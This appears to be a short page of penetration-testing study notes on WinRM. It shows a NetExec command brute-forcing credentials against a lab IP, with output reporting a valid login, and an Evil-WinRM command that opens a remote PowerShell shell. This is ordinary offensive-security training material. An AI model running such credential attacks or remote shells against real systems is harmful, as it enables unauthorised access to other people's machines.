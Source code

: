 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# WinRM

## NetExec

A tool that can be used for password attacks against WinRM is **NetExec**, which can also be used for other protocols such as **SMB**, **LDAP**, **MSSQL**, and others.

An example of attacking a WinRM endpoint using NetExec:

```shell
clue@machine[/]$ netexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

## Evil-WinRM

```shell
clue@machine[/]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

If the login was successful, a terminal session is initialised using the **PowerShell Remoting Protoco**l (**MS-PSRP**), which simplifies the operation and execution of commands.

